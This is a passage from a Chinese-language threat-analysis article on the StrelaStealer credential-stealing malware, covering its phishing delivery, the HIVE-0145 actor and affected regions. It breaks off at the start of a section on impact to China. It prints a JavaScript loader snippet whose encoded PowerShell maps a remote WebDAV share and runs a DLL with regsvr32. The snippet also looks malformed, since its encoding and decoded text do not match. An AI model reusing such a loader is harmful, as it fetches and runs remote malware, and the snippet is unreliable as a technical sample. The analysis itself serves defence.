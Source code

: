 # StrelaStealer 恶意软件威胁深度剖析：全球安全隐患与应对之策

## 一、事件概述

近年来，网络安全威胁日益严峻，其中一种名为 StrelaStealer 的恶意软件引起了全球安全专家的高度关注。研究人员发现，这种恶意软件专门针对 Microsoft Outlook 和 Mozilla Thunderbird 等主流电子邮件客户端的凭据信息进行窃取，通过窃取敏感登录信息，攻击者可能获取关键通信内容和数据，对全球范围内的组织构成了严重安全隐患。StrelaStealer 主要通过网络钓鱼活动传播，采用复杂的攻击链和混淆技术，成功绕过传统安全检测手段。目前，该恶意软件已影响欧美地区超过100个组织，尤其集中在意大利、西班牙、德国和乌克兰等地，其背后指向一个活跃的威胁行为者组织 HIVE-0145。本文将深入分析 StrelaStealer 的运作机制、传播途径、对中国可能产生的影响，并提出针对性应对策略，以期为相关机构提供参考。

## 二、事件描述分析

StrelaStealer 恶意软件的出现，标志着网络犯罪分子在技术手段上的进一步升级。其核心目标是窃取电子邮件客户端的凭据信息，这类信息往往是企业和个人通信的关键入口，一旦泄露，可能导致数据泄露、商业机密流失甚至敲诈勒索等严重后果。研究显示，该恶意软件的攻击范围覆盖多个国家和地区，尤其在欧美地区影响广泛，表明其背后组织具备明确的攻击目标和精密的策划能力。

### 传播机制与技术特点

StrelaStealer 的传播主要依赖于大规模网络钓鱼活动，攻击者通过发送包含恶意 JavaScript 文件的 ZIP 压缩包作为初始感染载体，引诱受害者点击执行。一旦用户运行该文件，脚本会通过 Windows 脚本宿主（CScript 或 WScript）启动，并采用多阶段混淆技术掩盖恶意行为。根据 AttackIQ 研究人员的分析，其近期变种中包含如下的代码片段：

```javascript
var encoded = "powershell.exe -enc UEdVdEFBQiB1c2UgXFxcXDEwLjEwLjEwLjEwXFxzaGFyZSAvcGVyc2lzdDpubzsgcmVnc3ZyMzIgXFxcXDEwLjEwLjEwLjEwXFxzaGFyZVxwYXlsb2FkLmRsbA==";
WScript.CreateObject("WScript.Shell").Run(encoded, 0, true);
```

这段代码通过启动 PowerShell 进程，执行编码命令，映射 WebDAV 网络路径，并进一步利用 Regsvr32 工具远程注册并执行托管在共享路径上的恶意 DLL 有效载荷。这种直接在内存中执行的有效载荷方式，能够有效避开基于文件扫描的传统防病毒检测机制，极大地提高了攻击的隐蔽性和成功率。

此外，StrelaStealer 在感染初期会进行广泛的系统侦察，收集目标主机的系统信息、已安装应用程序、国家区域设置及网络连接状态等数据。这些信息通过未加密的 HTTP 连接被传输至攻击者的指挥与控制（C2）服务器，为后续攻击提供支持。这种复杂的技术手段表明，攻击者在追求隐蔽性的同时，力求高效获取目标凭据，其技术能力与资源投入不容小觑。

### 攻击背后的组织与动机

根据安全研究，StrelaStealer 的开发和部署与威胁行为者组织 HIVE-0145 密切相关。该组织自2022年末以来异常活跃，被认为是出于经济利益驱动的初始访问中间人（Initial Access Broker）。作为网络犯罪生态链中的一环，HIVE-0145 专注于通过恶意软件获取目标系统的初始访问权限，随后将这些权限出售给其他犯罪团伙，用于勒索软件部署或数据窃取等进一步攻击活动。这种分工明确的犯罪模式，极大提高了攻击效率，也使得 StrelaStealer 的威胁范围不断扩大。

值得注意的是，2024年11月的最新分析显示，StrelaStealer 的传播和混淆技术已得到更新，表明其背后组织正在积极维护和迭代恶意软件。这种持续演变的态势，凸显了网络威胁的动态性和对抗性，也为安全防御工作带来了更大挑战。

### 攻击目标与影响范围

目前，StrelaStealer 的攻击活动主要集中在欧美地区，超过100个组织受到影响，其中意大利、西班牙、德国和乌克兰等国家受害最为严重。攻击目标多为企业机构，尤其是一些中小型企业，其安全防御能力相对较弱，容易成为攻击者的首要目标。此外，该恶意软件针对电子邮件客户端的特性，使得其潜在危害不仅限于数据窃取，还可能涉及商业间谍活动、供应链攻击甚至国家安全威胁。例如，攻击者通过窃取企业高管的电子邮件凭据，可能获取敏感商业谈判内容，或利用伪造身份进行进一步钓鱼攻击，诱导其他相关方泄露更多信息。

总的来说，StrelaStealer 恶意软件通过复杂的感染机制、高效的传播手段以及明确的攻击目标，展现了现代网络犯罪的高度组织化和技术化特征。其背后 HIVE-0145 组织的持续活跃，也警示着全球网络安全形势的严峻性。

## 三、对中国影响分析研判

尽管目前 StrelaStealer 的攻击活动主要集中在欧美地区，但其威胁并未局限于特定地理范围。随着网络犯罪的全球化趋势，类似恶意软件对中国企业和机构的潜在影响不容忽视。以下从多个维度分析该威胁对中国可能造成的影响。
